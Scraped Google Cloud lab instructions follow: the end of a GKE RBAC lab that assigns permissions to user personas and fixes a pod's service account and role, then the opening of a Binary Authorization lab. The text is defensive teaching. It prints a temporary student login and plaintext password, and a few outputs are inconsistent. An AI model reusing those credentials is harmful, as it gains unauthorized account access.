Cloud Shell is a virtual machine that is loaded with development tools. It offers a persistent 5GB home directory and runs on the Google Cloud. Cloud Shell provides command-line access to your Google Cloud resources.

1. Click **Activate Cloud Shell**  at the top of the Google Cloud console.
2. Click through the following windows:
   - Continue through the Cloud Shell information window.
   - Authorize Cloud Shell to use your credentials to make Google Cloud API calls.

When you are connected, you are already authenticated, and the project is set to your **Project_ID**, `qwiklabs-gcp-03-e21f4fbacbec`. The output contains a line that declares the **Project_ID** for this session:

```
Your Cloud Platform project in this session is set to qwiklabs-gcp-03-e21f4fbacbec
```

`gcloud` is the command-line tool for Google Cloud. It comes pre-installed on Cloud Shell and supports tab-completion.

1. (Optional) You can list the active account name with this command:

```
gcloud auth list
```

Copied!

1. Click **Authorize**.

**Output:**

```
ACTIVE: *
ACCOUNT: student-02-d79e7215c92b@qwiklabs.net

To set the active account, run:
    $ gcloud config set account `ACCOUNT`
```

1. (Optional) You can list the project ID with this command:

```
gcloud config list project
```

Copied!

**Output:**

```
[core]
project = qwiklabs-gcp-03-e21f4fbacbec
```

**Note:** For full documentation of `gcloud`, in Google Cloud, refer to [the gcloud CLI overview guide](https://cloud.google.com/sdk/gcloud).

## Set your region and zone

Certain Compute Engine resources live in regions and zones. A region is a specific geographical location where you can run your resources. Each region has one or more zones.

Learn more about regions and zones and see a complete list in [Regions & Zones documentation](https://cloud.google.com/compute/docs/regions-zones/).

Run the following to set a region and zone for your lab (you can use the region/zone that's best for you):

```
gcloud config set compute/region europe-west4
gcloud config set compute/zone europe-west4-a
```

Copied!

## Task 1. Verify the cluster

Confirm the pre created cluster in the Console. Go to **Navigation menu** > **Kubernetes Engine** > **Clusters** and click on the 'rbac-demo-cluster' cluster. Ensure that Legacy Authorization is disabled for the new cluster.


## Task 2. Scenario 1: Assigning permissions by user persona

### IAM - role

A role named `kube-api-ro-xxxxxxxx` (where `xxxxxxxx` is a random string) has been created with the permissions below as part of the Terraform configuration in `iam.tf`. These permissions are the minimum required for any user that requires access to the Kubernetes API.

- container.apiServices.get
- container.apiServices.list
- container.clusters.get
- container.clusters.getCredentials

### Simulating users

Three service accounts have been created to act as Test Users:

- **admin:** has admin permissions over the cluster and all resources
- **owner:** has read-write permissions over common cluster resources
- **auditor:** has read-only permissions within the dev namespace only

1. Run the following:

```
gcloud iam service-accounts list
```

Copied!

Three test hosts have been provisioned by the Terraform script. Each node has `kubectl` and `gcloud` installed and configured to simulate a different user persona.

- **gke-tutorial-admin**: kubectl and gcloud are authenticated as a cluster administrator.
- **gke-tutorial-owner**: simulates the `owner` account
- **gke-tutorial-auditor**: simulates the `auditor` account

1. Run the following:

```
gcloud compute instances list
```

Copied!

Output:

```
NAME                                             ZONE           MACHINE_TYPE   PREEMPTIBLE  INTERNAL_IP  EXTERNAL_IP     STATUS
rbac-demo-cluster-default-pool-a9cd3468-4vpc    europe-west4-a  n1-standard-1                10.0.96.5                    RUNNING
rbac-demo-cluster-default-pool-a9cd3468-b47f    europe-west4-a  n1-standard-1                10.0.96.6                    RUNNING
rbac-demo-cluster-default-pool-a9cd3468-rt5p    europe-west4-a  n1-standard-1                10.0.96.7                    RUNNING
gke-tutorial-auditor                            europe-west4-a  f1-micro                     10.0.96.4    35.224.148.28    RUNNING
gke-tutorial-admin                              europe-west4-a  f1-micro                     10.0.96.3    35.226.237.142   RUNNING
gke-tutorial-owner                              europe-west4-a  f1-micro                     10.0.96.2    35.194.58.130    RUNNING
```

### Creating the RBAC rules

Create the Namespaces, Roles, and RoleBindings by logging into the admin instance and applying the `rbac.yaml` manifest.

1. SSH to the admin:

```
gcloud compute ssh gke-tutorial-admin
```

Copied!

**Note:** Ignore the error which relates to gcp auth plugin.

Existing versions of kubectl and custom Kubernetes clients contain provider-specific code to manage authentication between the client and Google Kubernetes Engine. Starting with v1.26, this code will no longer be included as part of the OSS kubectl. GKE users will need to download and use a separate authentication plugin to generate GKE-specific tokens. This new binary, `gke-gcloud-auth-plugin`, uses the [Kubernetes Client-go Credential Plugin](https://kubernetes.io/docs/reference/access-authn-authz/authentication/#client-go-credential-plugins) mechanism to extend kubectl’s authentication to support GKE. For more information, you can check out the following [documentation](https://cloud.google.com/blog/products/containers-kubernetes/kubectl-auth-changes-in-gke).

To have kubectl use the new binary plugin for authentication instead of using the default provider-specific code, use the following steps.

1. Once connected, run the following command to install the `gke-gcloud-auth-plugin` on the VM.

```
sudo apt-get install google-cloud-sdk-gke-gcloud-auth-plugin
```

Copied!

1. Set `export USE_GKE_GCLOUD_AUTH_PLUGIN=True` in `~/.bashrc`:

```
echo "export USE_GKE_GCLOUD_AUTH_PLUGIN=True" >> ~/.bashrc
```

Copied!

1. Run the following command:

```
source ~/.bashrc
```

Copied!

1. Run the following command to force the config for this cluster to be updated to the Client-go Credential Plugin configuration.

```
gcloud container clusters get-credentials rbac-demo-cluster --zone europe-west4-a
```

Copied!

On success, you should see this message pop up:

```
Kubeconfig entry generated for dev-cluster.
```

The newly-created cluster will now be available for the standard `kubectl` commands on the bastion.

1. Create the namespaces, roles, and bindings:

```
kubectl apply -f ./manifests/rbac.yaml
```

Copied!

Output:

```
namespace/dev created
namespace/prod created
namespace/test created
role.rbac.authorization.k8s.io/dev-ro created
clusterrole.rbac.authorization.k8s.io/all-rw created
clusterrolebinding.rbac.authorization.k8s.io/owner-binding created
rolebinding.rbac.authorization.k8s.io/auditor-binding created
```

Click *Check my progress* to verify the objective.

Creating the RBAC rules


Check my progress


### Managing resources as the owner

1. Open a new Cloud Shell terminal by clicking the **+** at the top of the terminal window.

You will now SSH into the owner instance and create a simple deployment in each namespace.

1. SSH to the "owner" instance:

```
gcloud compute ssh gke-tutorial-owner
```

Copied!

**Note:** Ignore the error which relates to gcp auth plugin.

1. When prompted about the zone, enter `n`, so the default zone is used.
2. Install gke-gcloud-auth-plugin:

```
sudo apt-get install google-cloud-sdk-gke-gcloud-auth-plugin
echo "export USE_GKE_GCLOUD_AUTH_PLUGIN=True" >> ~/.bashrc
source ~/.bashrc
gcloud container clusters get-credentials rbac-demo-cluster --zone europe-west4-a
```

Copied!

1. Create a server in each namespace, first `dev`:

```
kubectl create -n dev -f ./manifests/hello-server.yaml
```

Copied!

Output:

```
service/hello-server created
deployment.apps/hello-server created
```

1. And then `prod`:

```
kubectl create -n prod -f ./manifests/hello-server.yaml
```

Copied!

Output:

```
service/hello-server created
deployment.apps/hello-server created
```

1. Then `test`:

```
kubectl create -n test -f ./manifests/hello-server.yaml
```

Copied!

Output:

```
service/hello-server created
deployment.apps/hello-server created
```

Click *Check my progress* to verify the objective.

Create a server in each namespace


Check my progress


As the owner, you will also be able to view all pods.

- On the "owner" instance list all `hello-server` pods in all namespaces by running:

```
kubectl get pods -l app=hello-server --all-namespaces
```

Copied!

Output:

```
NAMESPACE   NAME                            READY     STATUS    RESTARTS   AGE
dev         hello-server-6c6fd59cc9-h6zg9   1/1       Running   0          6m
prod        hello-server-6c6fd59cc9-mw2zt   1/1       Running   0          44s
test        hello-server-6c6fd59cc9-sm6bs   1/1       Running   0          39s
```

### Viewing resources as the auditor

Now you will open a new terminal, SSH into the auditor instance, and try to view all namespaces.

1. Open a new Cloud Shell terminal by clicking the **+** at the top of the terminal window.
2. SSH to the "auditor" instance:

```
gcloud compute ssh gke-tutorial-auditor
```

Copied!

**Note:** Ignore the error which relates to gcp auth plugin.

1. When prompted about the zone, enter `n`, so the default zone is used.
2. Install gke-gcloud-auth-plugin:

```
sudo apt-get install google-cloud-sdk-gke-gcloud-auth-plugin
echo "export USE_GKE_GCLOUD_AUTH_PLUGIN=True" >> ~/.bashrc
source ~/.bashrc
gcloud container clusters get-credentials rbac-demo-cluster --zone europe-west4-a
```

Copied!

1. On the "auditor" instance, list all `hello-server` pods in all namespaces with the following:

```
kubectl get pods -l app=hello-server --all-namespaces
```

Copied!

You should see an error like the following:

```
Error from server (Forbidden): pods is forbidden: User "gke-tutorial-auditor@myproject.iam.gserviceaccount.com" cannot list pods at the cluster scope: Required "container.pods.list" permission
```

The error indicates that you don't have sufficient permissions. The auditor role is restricted to viewing only the resources in the dev namespace, so you'll need to specify the namespace when viewing resources.

Now attempt to view pods in the dev namespace.

1. On the "auditor" instance run the following:

```
kubectl get pods -l app=hello-server --namespace=dev
```

Copied!

Output:

```
NAME                            READY     STATUS    RESTARTS   AGE
hello-server-6c6fd59cc9-h6zg9   1/1       Running   0          13m
```

1. Try to view pods in the test namespace:

```
kubectl get pods -l app=hello-server --namespace=test
```

Copied!

Output:

```
Error from server (Forbidden): pods is forbidden: User "gke-tutorial-auditor@myproject.iam.gserviceaccount.com" cannot list pods in the namespace "test": Required "container.pods.list" permission.
```

1. Attempt to view pods in the prod namespace:

```
kubectl get pods -l app=hello-server --namespace=prod
```

Copied!

Output:

```
Error from server (Forbidden): pods is forbidden: User "gke-tutorial-auditor@myproject.iam.gserviceaccount.com" cannot list pods in the namespace "prod": Required "container.pods.list" permission.
```

Finally, verify that the auditor has read-only access by trying to create and delete a deployment in the dev namespace.

1. On the "auditor" instance attempt to create a deployment:

```
kubectl create -n dev -f manifests/hello-server.yaml
```

Copied!

Output:

```
Error from server (Forbidden): error when creating "manifests/hello-server.yaml": services is forbidden: User "gke-tutorial-auditor@myproject.iam.gserviceaccount.com" cannot create services in the namespace "dev": Required "container.services.create" permission.
Error from server (Forbidden): error when creating "manifests/hello-server.yaml": deployments.extensions is forbidden: User "gke-tutorial-auditor@myproject.iam.gserviceaccount.com" cannot create deployments.extensions in the namespace "dev": Required "container.deployments.create" permission.
```

1. On the "auditor" instance, attempt to delete the deployment:

```
kubectl delete deployment -n dev -l app=hello-server
```

Copied!

Output:

```
Error from server (Forbidden): deployments.extensions "hello-server" is forbidden: User "gke-tutorial-auditor@myproject.iam.gserviceaccount.com" cannot update deployments.extensions in the namespace "dev": Required "container.deployments.update" permission.
```

## Task 3. Scenario 2: Assigning API permissions to a cluster application

In this scenario you'll go through the process of deploying an application that requires access to the Kubernetes API as well as configure RBAC rules while troubleshooting some common use cases.

### Deploying the sample application

The sample application will run as a single pod that periodically retrieves all pods in the default namespace from the API server and then applies a timestamp label to each one.

1. From the **admin** instance (this should be your first Cloud Shell tab), deploy the `pod-labeler` application. This will also deploy a Role, ServiceAccount, and RoleBinding for the pod:

```
kubectl apply -f manifests/pod-labeler.yaml
```

Copied!

Output:

```
role.rbac.authorization.k8s.io/pod-labeler created
serviceaccount/pod-labeler created
rolebinding.rbac.authorization.k8s.io/pod-labeler created
deployment.apps/pod-labeler created
```

Click *Check my progress* to verify the objective.

Deploying the sample application


Check my progress


### Diagnosing an RBAC misconfiguration

Now check the status of the pod. Once the container has finished creating, you'll see it error out. Investigate the error by inspecting the pods' events and logs.

1. On the **admin** instance check the pod status:

```
kubectl get pods -l app=pod-labeler
```

Copied!

Output:

```
NAME                           READY     STATUS    RESTARTS   AGE
pod-labeler-6d9757c488-tk6sp   0/1       Error     1          1m
```

1. On the **admin** instance, view the pod event stream by running:

```
kubectl describe pod -l app=pod-labeler | tail -n 20
```

Copied!

You should see:

```
Events:
  Type     Reason     Age                     From                                                       Message
  ----     ------     ----                    ----                                                       -------
  Normal   Scheduled  7m35s                   default-scheduler                                          Successfully assigned default/pod-labeler-5b4bd6cf9-w66jd to gke-rbac-demo-cluster-default-pool-3d348201-x0pk
  Normal   Pulling    7m34s                   kubelet, gke-rbac-demo-cluster-default-pool-3d348201-x0pk  pulling image "gcr.io/pso-examples/pod-labeler:0.1.5"
  Normal   Pulled     6m56s                   kubelet, gke-rbac-demo-cluster-default-pool-3d348201-x0pk  Successfully pulled image "gcr.io/pso-examples/pod-labeler:0.1.5"
  Normal   Created    5m29s (x5 over 6m56s)   kubelet, gke-rbac-demo-cluster-default-pool-3d348201-x0pk  Created container
  Normal   Pulled     5m29s (x4 over 6m54s)   kubelet, gke-rbac-demo-cluster-default-pool-3d348201-x0pk  Container image "gcr.io/pso-examples/pod-labeler:0.1.5" already present on machine
  Normal   Started    5m28s (x5 over 6m56s)   kubelet, gke-rbac-demo-cluster-default-pool-3d348201-x0pk  Started container
  Warning  BackOff    2m25s (x23 over 6m52s)  kubelet, gke-rbac-demo-cluster-default-pool-3d348201-x0pk  Back-off restarting failed container
```

1. On the **admin** instance, run the following to check the pod's logs:

```
kubectl logs -l app=pod-labeler
```

Copied!

Output:

```
Attempting to list pods
Traceback (most recent call last):
  File "label_pods.py", line 13, in <module>
    ret = v1.list_namespaced_pod("default",watch=False)
  File "build/bdist.linux-x86_64/egg/kubernetes/client/apis/core_v1_api.py", line 12310, in list_namespaced_pod
  File "build/bdist.linux-x86_64/egg/kubernetes/client/apis/core_v1_api.py", line 12413, in list_namespaced_pod_with_http_info
  File "build/bdist.linux-x86_64/egg/kubernetes/client/api_client.py", line 321, in call_api
  File "build/bdist.linux-x86_64/egg/kubernetes/client/api_client.py", line 155, in __call_api
  File "build/bdist.linux-x86_64/egg/kubernetes/client/api_client.py", line 342, in request
  File "build/bdist.linux-x86_64/egg/kubernetes/client/rest.py", line 231, in GET
  File "build/bdist.linux-x86_64/egg/kubernetes/client/rest.py", line 222, in request
kubernetes.client.rest.ApiException: (403)
Reason: Forbidden
HTTP response headers: HTTPHeaderDict({'Date': 'Fri, 25 May 2018 15:33:15 GMT', 'Audit-Id': 'ae2a0d7c-2ab0-4f1f-bd0f-24107d3c144e', 'Content-Length': '307', 'Content-Type': 'application/json', 'X-Content-Type-Options': 'nosniff'})
HTTP response body: {"kind":"Status","apiVersion":"v1","metadata":{},"status":"Failure","message":"pods is forbidden: User \"system:serviceaccount:default:default\" cannot list pods in the namespace \"default\": Unknown user \"system:serviceaccount:default:default\"","reason":"Forbidden","details":{"kind":"pods"},"code":403}
</module>
```

Based on this error, you can see a permissions error when trying to list pods via the API.

1. The next step is to confirm you are using the correct ServiceAccount.

### Fixing the serviceAccountName

By inspecting the pod's configuration, you can see it is using the default ServiceAccount rather than the custom Service Account.

1. On the **admin** instance, run:

```
kubectl get pod -oyaml -l app=pod-labeler
```

Copied!

Output:

```
    restartPolicy: Always
    schedulerName: default-scheduler
    securityContext:
      fsGroup: 9999
      runAsGroup: 9999
      runAsUser: 9999
    serviceAccount: default
```

The `pod-labeler-fix-1.yaml` file contains the fix in the deployment's template spec:

```
      # Fix 1, set the serviceAccount so RBAC rules apply
      serviceAccount: pod-labeler
```

Next you'll apply the fix and view the resulting change.

1. On the **admin** instance, apply the fix 1 by running:

```
kubectl apply -f manifests/pod-labeler-fix-1.yaml
```

Copied!

Output:

```
role.rbac.authorization.k8s.io/pod-labeler unchanged
serviceaccount/pod-labeler unchanged
rolebinding.rbac.authorization.k8s.io/pod-labeler unchanged
deployment.apps/pod-labeler configured
```

1. View the change in the deployment configuration:

```
kubectl get deployment pod-labeler -oyaml
```

Copied!

Changes in the output:

```
  ...
  restartPolicy: Always
  schedulerName: default-scheduler
  securityContext: {}
  serviceAccount: pod-labeler
  ...
```

Click *Check my progress* to verify the objective.

Fixing the service account name


Check my progress


### Diagnosing insufficient privileges

Once again, check the status of your pod and you'll notice it is still erring out, but with a different message this time.

1. On the **admin** instance check the status of your pod:

```
kubectl get pods -l app=pod-labeler
```

Copied!

Output:

```
NAME                          READY     STATUS             RESTARTS   AGE
pod-labeler-c7b4fd44d-mr8qh   0/1       CrashLoopBackOff   3          1m
```

You may need to run the previous command again to see this output.

1. On the **admin** instance, check the pod's logs:

```
kubectl logs -l app=pod-labeler
```

Copied!

Output:

```
  File "/usr/local/lib/python3.8/site-packages/kubernetes/client/rest.py", line 292, in PATCH
    return self.request("PATCH", url,
  File "/usr/local/lib/python3.8/site-packages/kubernetes/client/rest.py", line 231, in request
    raise ApiException(http_resp=r)
kubernetes.client.rest.ApiException: (403)
Reason: Forbidden
HTTP response headers: HTTPHeaderDict({'Audit-Id': 'f6c67c34-171f-42f3-b1c9-833e00cedd5e', 'Content-Type': 'application/json', 'X-Content-Type-Options': 'nosniff', 'Date': 'Mon, 23 Mar 2020 16:35:18 GMT', 'Content-Length': '358'})
HTTP response body: {"kind":"Status","apiVersion":"v1","metadata":{},"status":"Failure","message":"pods \"pod-labeler-659c8c99d5-t96pw\" is forbidden: User \"system:serviceaccount:default:pod-labeler\" cannot patch resource \"pods\" in API group \"\" in the namespace \"default\"","reason":"Forbidden","details":{"name":"pod-labeler-659c8c99d5-t96pw","kind":"pods"},"code":403}
```

Since this is failing on a PATCH operation, you can also see the error in Stackdriver. This is useful if the application logs are not sufficiently verbose.

1. In the Console, select **Navigation menu**, and in the Operations section, click on **Logging**.
2. In the **Query builder** dialog box, paste the following code and click **Run Query**:

```
protoPayload.methodName="io.k8s.core.v1.pods.patch"
```

Copied!

1. Click on a down arrow next to a log record and explore the details.

### Identifying the application's role and permissions

Use the ClusterRoleBinding to find the ServiceAccount's role and permissions.

1. On the **admin** instance, inspect the `rolebinding` definition:

```
kubectl get rolebinding pod-labeler -oyaml
```

Copied!

Output:

```
apiVersion: rbac.authorization.k8s.io/v1
kind: RoleBinding
metadata:
  annotations:
    kubectl.kubernetes.io/last-applied-configuration: |
      {"apiVersion":"rbac.authorization.k8s.io/v1","kind":"RoleBinding","metadata":{"annotations":{},"name":"pod-labeler","namespace":"default"},"roleRef":{"apiGroup":"rbac.authorization.k8s.io","kind":"Role","name":"pod-labeler"},"subjects":[{"kind":"ServiceAccount","name":"pod-labeler"}]}
  creationTimestamp: "2020-03-23T16:29:05Z"
  name: pod-labeler
  namespace: default
  resourceVersion: "2886"
  selfLink: /apis/rbac.authorization.k8s.io/v1/namespaces/default/rolebindings/pod-labeler
  uid: 0e4d5be7-d986-40d0-af1d-a660f9aa4336
roleRef:
  apiGroup: rbac.authorization.k8s.io
  kind: Role
  name: pod-labeler
subjects:
- kind: ServiceAccount
  name: pod-labeler
```

The `RoleBinding` shows you need to inspect the `pod-labeler` role in the default namespace. Here you can see the role is only granted permission to list pods.

1. On the **admin** instance, inspect the `pod-labeler` role definition:

```
kubectl get role pod-labeler -oyaml
```

Copied!

Output:

```
apiVersion: rbac.authorization.k8s.io/v1
kind: Role
metadata:
  annotations:
    kubectl.kubernetes.io/last-applied-configuration: |
      {"apiVersion":"rbac.authorization.k8s.io/v1","kind":"Role","metadata":{"annotations":{},"name":"pod-labeler","namespace":"default"},"rules":[{"apiGroups":[""],"resources":["pods"],"verbs":["list"]}]}
  creationTimestamp: "2020-03-23T16:29:05Z"
  name: pod-labeler
  namespace: default
  resourceVersion: "2883"
  selfLink: /apis/rbac.authorization.k8s.io/v1/namespaces/default/roles/pod-labeler
  uid: c8191869-c7de-42c6-98fc-79a91d9b02a1
rules:
- apiGroups:
  - ""
  resources:
  - pods
  verbs:
  - list
```

Since the application requires PATCH permissions, you can add it to the "verbs" list of the role, which you will do now.

The `pod-labeler-fix-2.yaml` file contains the fix in it's rules/verbs section:

```
rules:
- apiGroups: [""] # "" refers to the core API group
  resources: ["pods"]
  verbs: ["list","patch"] # Fix 2: adding permission to patch (update) pods
```

Apply the fix and view the resulting configuration.

1. On the **admin** instance, apply `fix-2`:

```
kubectl apply -f manifests/pod-labeler-fix-2.yaml
```

Copied!

Output:

```
role.rbac.authorization.k8s.io/pod-labeler configured
serviceaccount/pod-labeler unchanged
rolebinding.rbac.authorization.k8s.io/pod-labeler unchanged
deployment.apps/pod-labeler unchanged
```

Click *Check my progress* to verify the objective.

Identifying the application's role and permissions


Check my progress


1. On the **admin** instance, view the resulting change:

```
kubectl get role pod-labeler -oyaml
```

Copied!

Output:

```
apiVersion: rbac.authorization.k8s.io/v1
kind: Role
metadata:
  annotations:
    kubectl.kubernetes.io/last-applied-configuration: |
      {"apiVersion":"rbac.authorization.k8s.io/v1","kind":"Role","metadata":{"annotations":{},"name":"pod-labeler","namespace":"default"},"rules":[{"apiGroups":[""],"resources":["pods"],"verbs":["list","patch"]}]}
  creationTimestamp: "2020-03-23T16:29:05Z"
  name: pod-labeler
  namespace: default
  resourceVersion: "8802"
  selfLink: /apis/rbac.authorization.k8s.io/v1/namespaces/default/roles/pod-labeler
  uid: c8191869-c7de-42c6-98fc-79a91d9b02a1
rules:
- apiGroups:
  - ""
  resources:
  - pods
  verbs:
  - list
  - patch
```

Because the `pod-labeler` may be in a back-off loop, the quickest way to test the fix is to kill the existing pod and let a new one take its place.

1. On the **admin** instance, run the following to kill the existing pod and let the deployment controller replace it:

```
kubectl delete pod -l app=pod-labeler
```

Copied!

Output:

```
pod "pod-labeler-659c8c99d5-t96pw" deleted
```

### Verifying successful configuration

Finally, verify the new `pod-labeler` is running and check that the "updated" label has been applied.

1. On the **admin** instance, list all pods and show their labels:

```
kubectl get pods --show-labels
```

Copied!

Output:

```
NAME                          READY     STATUS    RESTARTS   NAME                           READY   STATUS    RESTARTS   AGE   LABELS
pod-labeler-659c8c99d5-5qsmw   1/1     Running   0          31s   app=pod-labeler,pod-template-hash=659c8c99d5,updated=1584982487.6428008
```

1. View the pod's logs to verify there are no longer any errors:

```
kubectl logs -l app=pod-labeler
```

Copied!

Output:

```
Attempting to list pods
labeling pod pod-labeler-659c8c99d5-5qsmw
labeling pod pod-labeler-659c8c99d5-t96pw
...
```

### Key take-aways

- Container and API server logs will be your best source of clues for diagnosing RBAC issues.
- Use RoleBindings or ClusterRoleBindings to determine which role is specifying the permissions for a pod.
- API server logs can be found in Stackdriver under the Kubernetes resource.
- Not all API calls will be logged to Stackdriver. Frequent, or verbose payloads are omitted by the Kubernetes' audit policy used in Kubernetes Engine. The exact policy will vary by Kubernetes version, but can be found in the [open source codebase](https://github.com/kubernetes/kubernetes/blob/master/cluster/gce/gci/configure-helper.sh#L740).

## Congratulations!

You've explored role-based access (RBAC) control by assigning different permissions to user personas and granting limited API access to an application running in your cluster.


## LAB - Google Kubernetes Engine Security: Binary Authorization

## Overview

One of the key security concerns for running Kubernetes clusters is knowing what container images are running inside each pod and being able to account for their origin. Establishing "container provenance" means having the ability to trace the source of a container to a trusted point of origin and ensuring your organization follows the desired processes during artifact (container) creation.

Some of the key concerns are:

- **Safe Origin** - How do you ensure that all container images running in the cluster come from an approved source?
- **Consistency and Validation** - How do you ensure that all desired validation steps were completed successfully for every container build and every deployment?
- **Integrity** - How do you ensure that containers were not modified before running after their provenance was proven?

From a security standpoint, not enforcing where images originate from presents several risks:

- A malicious actor that has compromised a container may be able to obtain sufficient cluster privileges to launch other containers from an unknown source without enforcement.
- An authorized user with the permissions to create pods may be able to accidentally or maliciously run an undesired container directly inside a cluster.
- An authorized user may accidentally or maliciously overwrite a docker image tag with a functional container that has undesired code silently added to it, and Kubernetes will pull and deploy that container as a part of a deployment automatically.

To help system operators address these concerns, Google Cloud offers a capability called [Binary Authorization](https://cloud.google.com/binary-authorization/). Binary Authorization is a Google Cloud managed service that works closely with GKE to enforce deploy-time security controls to ensure that only trusted container images are deployed. With Binary Authorization you can allowlist container registries, require images to be signed by trusted authorities, and centrally enforce those policies. By enforcing this policy, you can gain tighter control over your container environment by ensuring only approved and/or verified images are integrated into the build-and-release process.

This lab deploys a [Kubernetes Engine](https://cloud.google.com/kubernetes-engine/) Cluster with the Binary Authorization feature enabled demonstrates how to allowlist approved container registries, and walks you through the process of creating and running a signed container.

This lab was created by GKE Helmsman engineers to give you a better understanding of GKE Binary Authorization. We encourage any one to contribute to our assets!

## Architecture

The Binary Authorization and Container Analysis APIs are based upon the open-source projects Grafeas and Kritis.

- Grafeas defines an API spec for managing metadata about software resources, such as container images, Virtual Machine (VM) images, JAR files, and scripts. You can use Grafeas to define and aggregate information about your project’s components.
- Kritis defines an API for ensuring a deployment is prevented unless the artifact (container image) is conformant to central policy and optionally has the necessary attestations present.

In a simplified container deployment pipeline such as this:


The container goes through at least 4 steps:

1. The source code for creating the container is stored in source control.
2. Upon committing a change to source control, the container is built and tested.
3. If the build and test steps are completed, the container image artifact is then placed in a central container registry, ready for deployment.
4. When a deployment of that container version is submitted to the Kubernetes API, the container runtime will pull that container image from the container registry and run it as a pod.

In a container build pipeline, there are opportunities to inject additional processes to signify or "attest" that each step was completed successfully. Examples include running unit tests, source control analysis checks, licensing verification, vulnerability analysis, and more. Each step could be given the power or "attestation authority" to sign for that step being completed. An "attestation authority" is a human or system with the correct PGP key and the ability to register that "attestation" with the Container Analysis API.

By using separate PGP keys for each step, each attestation step could be performed by different humans, systems, or build steps in the pipeline (a). Each PGP key is associated with an "attestation note" which is stored in the Container Analysis API. When a build step "signs" an image, a snippet of JSON metadata about that image is signed via PGP and that signed snippet is submitted to the API as a "note occurrence".


(b).Once the container image has been built and the necessary attestations have been stored centrally, they are available for being queried as a part of a policy decision process. In this case, a [Kubernetes Admission Controller](https://kubernetes.io/docs/reference/access-authn-authz/admission-controllers/), upon receiving an API request to `create` or `update` a Pod:

1. Send a WebHook to the Binary Authorization API for a policy decision.
2. The Binary Authorization policy is then consulted.
3. If necessary, the Container Analysis API is also queried for the necessary attestation occurrences.
4. If the container image conforms to the policy, it is allowed to run.
5. If the container image fails to meet the policy, an error is presented to the API client with a message describing why it was prevented.


## Setup and requirements

### Before you click the Start Lab button

Read these instructions. Labs are timed and you cannot pause them. The timer, which starts when you click **Start Lab**, shows how long Google Cloud resources are made available to you.

This hands-on lab lets you do the lab activities in a real cloud environment, not in a simulation or demo environment. It does so by giving you new, temporary credentials you use to sign in and access Google Cloud for the duration of the lab.

To complete this lab, you need:

- Access to a standard internet browser (Chrome browser recommended).

**Note:** Use an Incognito (recommended) or private browser window to run this lab. This prevents conflicts between your personal account and the student account, which may cause extra charges incurred to your personal account.

- Time to complete the lab—remember, once you start, you cannot pause a lab.

**Note:** Use only the student account for this lab. If you use a different Google Cloud account, you may incur charges to that account.

### How to start your lab and sign in to the Google Cloud console

1. Click the **Start Lab** button. If you need to pay for the lab, a dialog opens for you to select your payment method. On the left is the Lab Details pane with the following:

   - The Open Google Cloud console button
   - Time remaining
   - The temporary credentials that you must use for this lab
   - Other information, if needed, to step through this lab

2. Click **Open Google Cloud console** (or right-click and select **Open Link in Incognito Window** if you are running the Chrome browser).

   The lab spins up resources, and then opens another tab that shows the Sign in page.

   ***Tip:\*** Arrange the tabs in separate windows, side-by-side.

   **Note:** If you see the **Choose an account** dialog, click **Use Another Account**.

3. If necessary, copy the **Username** below and paste it into the **Sign in** dialog.

   ```
   student-02-e164b91bf60d@qwiklabs.net
   ```

   Copied!

   You can also find the Username in the Lab Details pane.

4. Click **Next**.

5. Copy the **Password** below and paste it into the **Welcome** dialog.

   ```
   7ZUIm6rpni18
   ```

   Copied!

   You can also find the Password in the Lab Details pane.

6. Click **Next**.

   **Important:** You must use the credentials the lab provides you. Do not use your Google Cloud account credentials.

   **Note:** Using your own Google Cloud account for this lab may incur extra charges.

7. Click through the subsequent pages:

   - Accept the terms and conditions.
   - Do not add recovery options or two-factor authentication (because this is a temporary account).
   - Do not sign up for free trials.

After a few moments, the Google Cloud console opens in this tab.

**Note:** To access Google Cloud products and services, click the **Navigation menu** or type the service or product name in the **Search** field. 

### Activate Cloud Shell

Cloud Shell is a virtual machine that is loaded with development tools. It offers a persistent 5GB home directory and runs on the Google Cloud. Cloud Shell provides command-line access to your Google Cloud resources.

1. Click **Activate Cloud Shell**  at the top of the Google Cloud console.
2. Click through the following windows:
   - Continue through the Cloud Shell information window.
   - Authorize Cloud Shell to use your credentials to make Google Cloud API calls.

When you are connected, you are already authenticated, and the project is set to your **Project_ID**, `qwiklabs-gcp-03-c7ed025791a3`. The output contains a line that declares the **Project_ID** for this session:

```
Your Cloud Platform project in this session is set to qwiklabs-gcp-03-c7ed025791a3
```

`gcloud` is the command-line tool for Google Cloud. It comes pre-installed on Cloud Shell and supports tab-completion.

1. (Optional) You can list the active account name with this command:

```
gcloud auth list
```

Copied!

1. Click **Authorize**.

**Output:**

```
ACTIVE: *
ACCOUNT: student-02-e164b91bf60d@qwiklabs.net

To set the active account, run:
    $ gcloud config set account `ACCOUNT`
```

1. (Optional) You can list the project ID with this command:

```
gcloud config list project
```

Copied!

**Output:**

```
[core]
project = qwiklabs-gcp-03-c7ed025791a3
```

**Note:** For full documentation of `gcloud`, in Google Cloud, refer to [the gcloud CLI overview guide](https://cloud.google.com/sdk/gcloud).

## Task 1. Copy resources

1. Now, you will copy the resources needed for this lab by running:

```
gsutil -m cp -r gs://spls/gke-binary-auth/* .
```

Copied!

1. Go into the directory for this demo:

```
cd gke-binary-auth-demo
```

Copied!

### Set your region and zone

Certain Compute Engine resources live in regions and zones. A region is a specific geographical location where you can run your resources. Each region has one or more zones.

**Note**: Learn more about regions and zones and see a complete list in [Regions & Zones documentation](https://cloud.google.com/compute/docs/regions-zones/).

Run the following to set a region and zone for your lab (you can use the region/zone that's best for you):

```
gcloud config set compute/region europe-west4
gcloud config set compute/zone europe-west4-c
```

Copied!

### Updating files permissions

- Now, make some files readable, writable, and executable for resources needed for this lab:

```
chmod +x create.sh
chmod +x delete.sh
chmod 777 validate.sh
```

Copied!

## Task 2. Set default cluster version

- Change the `create.sh`'s **GKE_VERSION** variable to `defaultClusterVersion`:

```
sed -i 's/validMasterVersions\[0\]/defaultClusterVersion/g' ./create.sh
```

Copied!

**Note:** The default cluster version will be compatible with other dependencies in this lab.

## Task 3. Deployment steps

**Note:** The following instructions are applicable for deployments performed both with and without Cloud Shell.

- To deploy the cluster, execute the following command. Feel free to replace the text `my-cluster-1` with the name of the cluster that you would like to create.

```
./create.sh -c my-cluster-1
```

Copied!

The `create` script will output the following message when complete:

```
kubeconfig entry generated for my-cluster-1.
NAME          LOCATION       MASTER_VERSION  MASTER_IP        MACHINE_TYPE   NODE_VERSION   NUM_NODES  STATUS
my-cluster-1  europe-west4-c  1.14.8-gke.17   104.154.181.211  n1-standard-1  1.14.8-gke.17  2          RUNNING
Fetching cluster endpoint and auth data.
